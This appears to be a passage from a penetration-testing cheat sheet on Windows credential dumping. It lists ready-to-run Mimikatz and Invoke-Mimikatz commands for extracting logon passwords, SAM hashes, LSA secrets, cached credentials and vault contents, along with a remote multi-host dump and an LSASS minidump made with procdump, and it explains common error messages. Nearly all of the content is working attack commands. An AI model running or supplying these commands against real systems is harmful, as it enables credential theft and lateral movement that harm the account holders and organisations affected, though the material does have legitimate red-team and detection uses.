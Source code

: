 ## Basic commands

Dump credentials on a local machine (needs local administrator rights):

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds

Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords"'	# Cached passwords

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'	# SAM database passwords
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'	# LSA secrets
Invoke-Mimikatz -Command '"token::elevate" "lsadump::cache"'	# Cached credentials
```

```batch
:: mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
mimikatz # lsadump::secrets
mimikatz # lsadump::cache

mimikatz # vault::list
mimikatz # vault::cred
mimikatz # vault::cred /patch
```

Dump credentials on multiple remote machines (needs administrator rights on remote machines):

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds -ComputerName @("COMPUTER1", "COMPUTER2") 
```

ERROR *kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061*: The required privilege is not held by the client (mostly you're not an administrator).

ERROR *kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)*: No rights to access the LSASS process.

Extract in-memory credentials from a minidump of a local machine (needs local administrator rights):

```batch
:: procdump.exe
:: On the remote machine (needs local admin rights) 
.\procdump.exe -accepteula -ma lsass.exe c:\users\public\dump.dmp 2>&1

:: mimikatz.exe
:: On the local machine after the reception of the minidump file dump.dmp
mimikatz # sekurlsa::minidump dump.dmp
mimikatz # sekurlsa::logonpasswords
```
